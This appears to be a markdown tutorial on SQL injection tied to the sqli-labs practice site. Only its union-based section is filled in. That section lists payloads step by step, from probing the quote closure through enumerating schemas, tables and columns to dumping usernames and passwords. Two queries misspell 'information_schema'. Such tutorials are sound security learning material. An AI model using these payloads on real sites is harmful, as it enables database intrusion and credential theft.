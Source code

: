 # SQL Injection

> Before wirting, I want to share a useful learning website about sqli. That [sqli-labs](https://www.cnblogs.com/zhengna/p/12617743.html)

And you are supposed to know the basic of sqli, such as some userful function like "user()","database()","group_concat()", and note that the use
of "#", "--+", etc.

Some useful url encode
1. %20: " "
2. %23: "#"
3. %3a: ":"
4. %7e: "~"
5. %27: "'"
...

**Content**
- [1. Union-based](#1-Union-based-Injection)
- [2. Error-based](#2-Error-based-Injection)
- [3. Boolean Blind](#3-Boolean-Blind-Injection)

## 1. Union-based Injection

Here are some basic steps of union injection.

### 1.1 Look for the type of closing symbol

See you need to upload the **$id**

You can put "/?id=" + followings:
1. 1 or 1=1--+
2. 1' or 1=1--+
3. 1" or 1=1--+
4. 1) or 1=1--+
5. 1') or 1=1--+
6. 1") or 1=1--+

You can find that the correct closing lead to a normal reflect instead of ERROR.

### 1.2 Ensure the column number

We assume that $id closed by single quote, then use **order** to find the columns.

Try 
```
?id=1' order by 1--+
```
and then 
```
?id=1' order by 2--+
```
until errors. That's the column number.

### 1.3 Check out the display data

Suppose that there is three columns in total.
```
?id=-1' union select 1,2,3 --+
```
If the output contains 2 and 3, we can set payload in position 2 and 3, where will show the data we want.

Note that there is always a **LIMIT 0,1** in the query. And you need to make the select of $id not work.

### 1.4 Blast databases

The current database you are using is **database()**
Use following to show it:
```
?id=-1' union select 1,database(),3 --+
```

If you want to show the all databases, try following:
```
?id=-1' union select 1,group_concat(schema_name),3 from information_schame.schemata --+
```

### 1.5 Blast tables

You always need to know the tables in your current database, blast tables like this:

```
?id=-1' union select 1,group_concat(table_name),3 from information_schame.tables where table_schema=database() --+
```

You can replace the database() with the database name you found in step 4.

### 1.6 Blast columns

Say you want to blast all columns of table "users" in current database. 

```
?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='users' --+
```

### 1.7 Dump the data

Finally, you got the "id,username,password" columns in table users. 
```
?id=-1' union select 1,group_concat(username, 0x3a, password),3 from users --+
```

## 2. Error-based Injection

## 3. Boolean Blind Injection

## 4. Time Blind Injection





